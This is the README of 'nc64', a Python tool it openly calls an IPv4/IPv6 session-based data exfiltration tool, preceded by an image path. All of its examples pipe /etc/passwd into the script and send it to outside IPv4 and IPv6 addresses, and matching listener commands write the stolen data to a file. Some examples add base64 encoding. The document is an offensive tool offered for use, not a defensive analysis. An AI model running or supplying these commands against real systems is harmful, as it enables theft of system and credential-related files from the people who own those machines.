 # nc64
IPv6 and IPv4 session based data exfiltration tool

# Examples:
cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11
python3 nc64.py -l > out

cat /etc/passwd | python3 nc64.py -i wlan0 -p 4444 -h4 192.168.10.10 -h6 2a02:1010:12aa::11
python3 nc64.py -l -i eth1 -p 4444 > out

cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11 -b64 -T
python3 nc64.py -l -b64 > out

